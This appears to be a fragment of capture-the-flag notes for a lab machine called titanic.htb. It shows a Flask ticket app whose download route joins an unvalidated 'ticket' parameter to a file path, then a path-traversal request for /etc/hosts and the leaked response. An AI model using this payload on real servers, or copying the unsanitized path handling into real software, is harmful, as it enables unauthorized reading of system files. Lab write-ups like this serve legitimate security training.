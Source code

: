 ```bash
        "phone": request.form['phone'],
        "date": request.form['date'],
        "cabin": request.form['cabin']
    }

    # Generate a unique ID for the ticket
    ticket_id = str(uuid4())
    json_filename = f"{ticket_id}.json"
    json_filepath = os.path.join(TICKETS_DIR, json_filename)

    # Save the data as a JSON file
    with open(json_filepath, 'w') as json_file:
        json.dump(data, json_file)

    # Redirect to the download URL with the ticket filename
    return redirect(url_for('download_ticket', ticket=json_filename))

@app.route('/download', methods=['GET'])
def download_ticket():
    ticket = request.args.get('ticket')
    if not ticket:
        return jsonify({"error": "Ticket parameter is required"}), 400

    json_filepath = os.path.join(TICKETS_DIR, ticket)

    if os.path.exists(json_filepath):
        return send_file(json_filepath, as_attachment=True, download_name=ticket)
    else:
        return jsonify({"error": "Ticket not found"}), 404

if __name__ == '__main__':
    app.run(host='127.0.0.1', port=5000)

# /etc/hosts
# GET
GET /download?ticket=../../../../../../etc/hosts HTTP/1.1
Host: titanic.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://titanic.htb/book
Origin: http://titanic.htb
DNT: 1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i

# ans
HTTP/1.1 200 OK
Date: Mon, 30 Jun 2025 04:19:10 GMT
Server: Werkzeug/3.0.3 Python/3.10.12
Content-Disposition: attachment; filename="../../../../../../etc/hosts"
Content-Type: application/octet-stream
Content-Length: 250
Last-Modified: Fri, 07 Feb 2025 12:04:36 GMT
Cache-Control: no-cache
ETag: "1738929876.3570278-250-789908774"
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive

127.0.0.1 localhost titanic.htb dev.titanic.htb
127.0.1.1 titanic
```